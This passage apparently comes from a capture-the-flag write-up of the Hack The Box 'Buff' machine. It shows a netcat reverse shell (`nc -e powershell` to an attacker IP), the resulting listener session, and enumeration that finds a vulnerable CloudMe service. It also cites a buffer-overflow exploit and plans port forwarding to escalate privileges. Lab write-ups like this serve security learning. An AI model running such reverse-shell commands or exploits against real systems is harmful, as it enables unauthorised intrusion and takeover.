 ```bash
C:\xampp\htdocs\gym\upload> nc -e powershell 10.10.14.166 9999
```
The connection is recieved, and I now have a shell.
```bash
kali@kali:~/Desktop$ nc -lvp 9999
Listening on 0.0.0.0 9999
Connection received on 10.10.10.198 49848
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

whoami
PS C:\xampp\htdocs\gym\upload> whoami
buff\shaun
PS C:\xampp\htdocs\gym\upload>
```

### 4. Enumeration from user
I start enumerating through the different directories. There are a lot of files present that are accessible to the user, but one in particular that stands out is CloudMe_1112.exe in the Downloads folder.
```
PS C:\Users\shaun\Downloads> ls

    Directory: C:\Users\shaun\Downloads


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----       16/06/2020     16:26       17830824 CloudMe_1112.exe

PS C:\Users\shaun\Downloads>
```
This version of CloudMe 1.11.2 sync has several proof of concept exploits related to a buffer overflow. By running this exe, I know CloudMe should be running on port 8888, which I can verify with a powershell command.
```bash
PS C:\xampp\htdocs\gym\upload> Get-Process -Id (Get-NetTCPConnection -LocalPort 8888).OwningProcess                   
Get-Process -Id (Get-NetTCPConnection -LocalPort 8888).OwningProcess

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------                                                  
    288      50    30332        144              4000   0 CloudMe
```
The exploit proof of concept is at https://www.exploit-db.com/exploits/48389, and is written in Python, which is not present on the machine. With the knowledge that this is most highly likely a valid path to root I can end enumeration and move forward to exploit this process.

### 5. Escalate privileges
I can try to use plink to create a connection to my machine which should expose that port to me for exploitation using python.  
Reference: https://null-byte.wonderhowto.com/how-to/use-remote-port-forwarding-slip-past-firewall-restrictions-unnoticed-0179716/  
  